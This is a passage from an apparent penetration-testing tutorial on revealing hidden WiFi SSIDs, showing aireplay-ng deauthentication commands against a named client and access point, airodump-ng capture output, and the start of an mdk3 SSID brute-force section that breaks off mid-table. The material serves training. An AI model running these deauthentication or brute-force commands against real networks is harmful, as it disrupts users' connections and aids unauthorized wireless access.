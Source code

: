 <p>The first way to find a hidden SSID is to perform a deauthentication attack on the clients connected to the WiFi network, which allows us to capture the request when they reconnect. From the above <code>airodump-ng</code> scan, we observed that a client with the STATION ID <code>02:00:00:00:02:00</code> is connected to the BSSID <code>B2:C1:3D:3B:2B:A1</code>. Let's start the <code>airodump-ng</code> capture on channel <code>1</code> and use <code>aireplay-ng</code> to send deauthentication requests to the client.</p>
<p>We should start sniffing our network on <code>channel 1</code> with airodump-ng.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo airodump-ng -c 1 wlan0mon
</code></pre>
<p>In order to force the client to send a probe request, it needs to be disconnected. We can do this with aireplay-ng.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan0mon

12:34:56  Waiting for beacon frame (BSSID: B2:C1:3D:3B:2B:A1) on channel `
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|60 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|57 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|61 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|60 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|59 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|58 ACKs]
12:34:56  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:02:00] [ 11|55 ACKs]
</code></pre>
<p>After sending the deauthentication requests using <code>aireplay-ng</code>, we should see the name of the hidden SSID appear in <code>airodump-ng</code> once the client reconnects to the WiFi network. This process leverages the re-association request, which contains the SSID name, and allows us to capture and identify the hidden SSID.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo airodump-ng -c 1 wlan0mon

CH  1 ][ Elapsed: 0 s ][ 2024-05-21 20:45 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 B2:C1:3D:3B:2B:A1  -47   0        9        0    0   1   54   WPA2 CCMP   PSK  jacklighters

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 B2:C1:3D:3B:2B:A1  02:00:00:00:02:00  -29    0 -24      0        4         jacklighters
</code></pre>
<hr/>
<h3>Bruteforcing Hidden SSID</h3>
<p>Another way to discover a hidden SSID is to perform a brute-force attack. We can use a tool like <a href="https://github.com/charlesxsh/mdk3-master">mdk3</a> to carry out this attack. With mdk3, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names.</p>
<p>Basic syntax for mdk3 is as following:</p>
<pre><code class="language-Usage">mdk3 &lt;interface&gt; &lt;test mode&gt; [test_ options]
</code></pre>
<p>The <code>p</code> test mode argument in mdk3 stands for Basic probing and ESSID Bruteforce mode. It offers the following options:</p>
<table>
<thead>
<tr>
<th><strong>Option</strong></th>
<th><strong>Description</strong></th>
</tr>
</thead>
<tbody>
<tr>
<td><code>-e</code></td>
<td>Specify the SSID for probing.</td>
</tr>
<tr>
<td><code>-f</code></td>